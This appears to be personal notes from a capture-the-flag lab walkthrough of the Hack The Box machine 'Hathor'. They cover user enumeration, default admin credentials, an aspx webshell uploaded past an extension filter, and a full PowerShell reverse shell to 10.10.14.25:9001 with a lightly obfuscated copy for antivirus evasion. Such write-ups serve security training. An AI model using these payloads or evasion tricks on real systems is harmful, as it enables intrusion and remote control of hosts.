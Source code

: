 ```bash
|_  start_date: N/A

```

Hostnames:
`windcorp.htb` and `hathor.windcorp.htb`

Due to ldap and kerberos this is probs the domain controller.

## Website
Recover password page leaks valid users.

When creating a user and logging in you can see the members list which only has admin.

lol default creds work for `admin@admin.com:admin`


# Admin on website
We can upload a file so aspx webshell time.

File type gets blocked.

add `.txt` to the end which works.

File is uploaded here: `http://10.10.11.147/Data/Sites/1/media/cmd.aspx.txt`

When copying the file you can change the ext.

## Webshell
we are the web user so going to try to get a rev shell.
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.25',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

This gets blocked by AV, you can check by doing this:
```
rev.ps1 | iconv -t utf-16le | base64 -w 0
```

Then passing that to the shell with `2>&1` 

Basic obfsucation.
```powershell
$cx = New-Object System.Net.Sockets.TCPClient('10.10.14.25',9001);$stream = $cx.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'shell =>';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$stream.Write($sbyte,0,$sbyte.Length);$stream.Flush()};$cx.Close()
```
